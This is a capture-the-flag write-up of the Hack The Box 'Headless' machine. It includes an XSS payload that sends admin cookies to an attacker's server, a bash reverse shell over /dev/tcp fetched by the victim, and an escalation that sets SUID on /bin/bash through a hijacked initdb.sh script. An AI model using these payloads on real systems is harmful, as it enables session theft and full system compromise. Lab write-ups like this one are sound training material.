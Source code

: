 # Headless

## Introduction <a href="#introduction" id="introduction"></a>

This writeup details the exploitation process of the "Headless" box on Hack The Box. The challenge is categorized as Easy difficulty and involves several stages.

<figure><img src="../.gitbook/assets/image (137).png" alt=""><figcaption></figcaption></figure>

## Enumeration <a href="#enumeration" id="enumeration"></a>

### Nmap <a href="#nmap" id="nmap"></a>

```bash
nmap -A -Pn 10.10.11.8
```

<figure><img src="../.gitbook/assets/image (138).png" alt=""><figcaption><p>Set-Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs;</p></figcaption></figure>

### Adding Domain to Hosts File <a href="#adding-domain-to-hosts-file" id="adding-domain-to-hosts-file"></a>

```bash
echo "10.10.11.8 headless.thm" | sudo tee -a /etc/hosts
```

<figure><img src="../.gitbook/assets/image (140).png" alt=""><figcaption></figcaption></figure>

### Directory Enumeration <a href="#directory-enumeration" id="directory-enumeration"></a>

```bash
dirsearch -u 10.10.11.8:5000
```

<figure><img src="../.gitbook/assets/image (139).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (141).png" alt=""><figcaption><p>/support</p></figcaption></figure>

<figure><img src="../.gitbook/assets/image (142).png" alt=""><figcaption><p>/dashboard</p></figcaption></figure>

## Exploitation <a href="#exploitation" id="exploitation"></a>

### Python Server

```bash
python -m http.server 8023
```

### XSS on User-Agent&#x20;

```javascript
<img src=x onerror=fetch('http://<IP>:<PORT>/'+document.cookie);>
```

<figure><img src="../.gitbook/assets/image (143).png" alt=""><figcaption></figcaption></figure>

After Exploit XSS at User-Agent, we get a reply back with the **admin cookie** at the python server

<figure><img src="../.gitbook/assets/image (144).png" alt=""><figcaption></figcaption></figure>

### Admin Cookies

<figure><img src="../.gitbook/assets/image (145).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (146).png" alt=""><figcaption></figcaption></figure>

### Reverse Shell&#x20;

<pre class="language-bash"><code class="lang-bash"><strong>#!/bin/bash
</strong>/bin/bash -c 'exec bash -i >&#x26; /dev/tcp/&#x3C;IP>/&#x3C;PORT> 0>&#x26;1'
#Create Reverse Shell script into a file, In my case I create .sh
</code></pre>

Using a same Python Server to make the victim server can curl.

<figure><img src="../.gitbook/assets/image (148).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (149).png" alt=""><figcaption></figcaption></figure>

### User Flag

<figure><img src="../.gitbook/assets/image (150).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation <a href="#privilege-escalation" id="privilege-escalation"></a>

### Check sudo -l <a href="#check-sudo-l" id="check-sudo-l"></a>

```bash
sudo -l
```

<figure><img src="../.gitbook/assets/image (151).png" alt=""><figcaption></figcaption></figure>

### Syscheck

<figure><img src="../.gitbook/assets/image (152).png" alt=""><figcaption></figcaption></figure>

### Exploit initdb.sh

```bash
echo "chmod u+s /bin/bash" > initdb.sh
chmod +x initdb.sh
```

* `chmod u+s /bin/bash`: Sets the set-user-ID (SUID) permission on `/bin/bash`, allowing users to execute the bash shell with the file owner's (typically root) privileges.
* `chmod +x initdb.sh`: This command changes the permissions of the file `initdb.sh`, making it executable (`+x`) by the file's owner, group, and others. This allows the script to be run as a program by the user.

<figure><img src="../.gitbook/assets/image (153).png" alt=""><figcaption></figcaption></figure>

```bash
sudo /usr/bin/syscheck
/bin/bash -p
```

* `/bin/bash -p`: starts a bash shell with root privileges retained, due to the SUID bit making the shell run with the file owner's (root's) effective ID.

### Root Flag

<figure><img src="../.gitbook/assets/image (154).png" alt=""><figcaption></figcaption></figure>

## Follow Me

* **LinkedIn**: [https://www.linkedin.com/in/waris-damkham/](https://www.linkedin.com/in/waris-damkham/)
* **Website**: [https://waris-damkham.netlify.app/](https://waris-damkham.netlify.app/#home)
